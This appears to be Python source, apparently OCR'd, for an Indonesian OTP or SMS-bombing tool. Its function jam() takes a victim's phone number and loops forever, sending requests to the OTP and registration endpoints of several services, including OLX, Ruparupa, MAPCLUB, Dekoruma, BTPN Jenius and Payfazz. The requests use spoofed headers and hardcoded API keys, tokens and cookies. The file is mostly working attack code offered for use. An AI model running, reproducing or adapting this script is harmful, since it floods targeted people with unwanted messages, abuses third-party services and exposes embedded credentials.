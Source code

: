 def tanya():
    a = input(f"{W}[{Y}?{W}] Back Tools? ({Y}y{W}/{Y}t{W}){R} :{G} ")
    if a == "y" or a == "Y":
        start()
    if a == "t" or a == "T":
        print (f"{W}[{R}!{W}] Berhasil Keluar Dari Tools {R}!!!{W}")
        sys.exit()
    if a == "" or a == " ":
        print (f"{W}[{R}!{W}] Masukkan Pilihan Dengan Benar {R}!!!{W}")
        sys.exit

def jam(): # Don't Remove Code !!!!
    try:
        os.system("clear") # Clear Layar
        banner()
        nomor = input(f"{W}[{R}?{W}] 085819166086 {Y}:{G} ")
        while True: # Looping
            AmmarGanz=requests.post("https://www.olx.co.id/api/auth/authenticate",data=json.dumps({"grantType": "retry","method": "sms","phone":"62"+nomor,"language": "id"}), headers={"accept": "*/*","x-newrelic-id": "VQMGU1ZVDxABU1lbBgMDUlI=","x-panamera-fingerprint": "83b09e49653c37fb4dc38423d82d74d7#1597271158063","user-agent": "Mozilla/5.0 (Linux; Android 5.1.1; SM-G600S Build/LMY47V; wv) AppleWebKit/537.36 (KHTML, like Gecko) Version/4.0 Chrome/59.0.3071.125 Mobile Safari/537.36","content-type": "application/json"}).text
            pos=requests.post("https://wapi.ruparupa.com/auth/generate-otp",headers={"Host":"wapi.ruparupa.com","content-length":"120","sec-ch-ua-mobile":"?0","authorization":"eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJ1dWlkIjoiYTQyNDMyZDctZjI5NS00Zjk0LTllYTYtZjlkZmM0ZDgwY2RiIiwiaWF0IjoxNjU3MTI0OTQwLCJpc3MiOiJ3YXBpLnJ1cGFydXBhIn0.4j37JW_U6DVynJ0wCxHmVNI8SbpsaeUgqk3SEihJmvs","content-type":"application/json","x-company-name":"odi","accept":"application/json","user-agent":"Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/94.0.4606.85 Safari/537.36","user-platform":"desktop","x-frontend-type":"desktop","sec-ch-ua-platform":"Linux","origin":"https://www.ruparupa.com","sec-fetch-site":"same-site","sec-fetch-mode":"cors","sec-fetch-dest":"empty","referer":"https://www.ruparupa.com/verification?page=otp-choices","accept-encoding":"gzip, deflate, br","accept-language":"id-ID,id;q=0.9,en-US;q=0.8,en;q=0.7"},data=json.dumps({"phone":"0"+nomor,"action":"register","channel":"message","email":"","token":"","customer_id":"0","is_resend":0})).text
            requests.post("https://beryllium.mapclub.com/api/member/registration/sms/otp",headers={"Host":"beryllium.mapclub.com","content-type":"application/json","accept-language":"en-US","accept":"application/json, text/plain, */*","user-agent":"Mozilla/5.0 (Linux; Android 10; M2006C3LG) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/87.0.4280.101 Mobile Safari/537.36","origin":"https://www.mapclub.com","sec-fetch-site":"same-site","sec-fetch-mode":"cors","sec-fetch-dest":"empty","referer":"https://www.mapclub.com/","accept-encoding":"gzip, deflate, br"},data=json.dumps({"account":nomor})).text
            dekor2=requests.post("https://auth.dekoruma.com/api/v1/register/request-otp-phone-number/?format=json",headers={"Host":"auth.dekoruma.com","save-data":"on","user-agent":"Mozilla/5.0 (Linux; Android 10; M2006C3LG) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/87.0.4280.101 Mobile Safari/537.36","content-type":"application/json","accept":"*/*","origin":"https://m.dekoruma.com","sec-fetch-site":"same-site","sec-fetch-mode":"cors","sec-fetch-dest":"empty","referer":"https://m.dekoruma.com/","accept-encoding":"gzip, deflate, br","accept-language":"id-ID,id;q=0.9,en-US;q=0.8,en;q=0.7"},data=json.dumps({"phoneNumber":"+62"+nomor,"platform":"sms"})).text
            jenius=requests.post("https://api.btpn.com/jenius", json.dumps({"query": "mutation registerPhone($phone: String!,$language: Language!) {\n  registerPhone(input: {phone: $phone,language: $language}) {\n    authId\n    tokenId\n    __typename\n  }\n}\n","variables": {"phone":"+62"+nomor,"language": "id"},"operationName": "registerPhone"}),headers={"accept": "*/*","btpn-apikey": "f73eb34d-5bf3-42c5-b76e-271448c2e87d","version": "2.36.1-7565","accept-language": "id","x-request-id": "d7ba0ec4-ebad-4afd-ab12-62ce331379be","Content-Type": "application/json","Host": "api.btpn.com","Connection": "Keep-Alive","Accept-Encoding": "gzip","Cookie": "c6bc80518877dd97cd71fa6f90ea6a0a=24058b87eb5dac1ac1744de9babd1607","User-Agent": "okhttp/3.12.1"}).text
            payfaz=requests.post("https://api.payfazz.com/v2/phoneVerifications",data={"phone":"0"+nomor},headers={"Host": "api.payfazz.com", "content-length": "17", "accept": "*/*", "origin": "https://www.payfazz.com","user-agent": "Mozilla/5.0 (Linux; Android 5.1.1; SM-G600S Build/LMY47V; wv) AppleWebKit/537.36 (KHTML, like Gecko) Version/4.0 Chrome/59.0.3071.125 Mobile Safari/537.36", "content-type": "application/x-www-form-urlencoded; charset=UTF-8", "referer": "http://www.payfazz.com/register/BEN6ZF74XL", "accept-encoding": "gzip, deflate, br", "accept-language": "id-ID,id;q=0.9,en-US;q=0.8,en;q=0.7"}).text
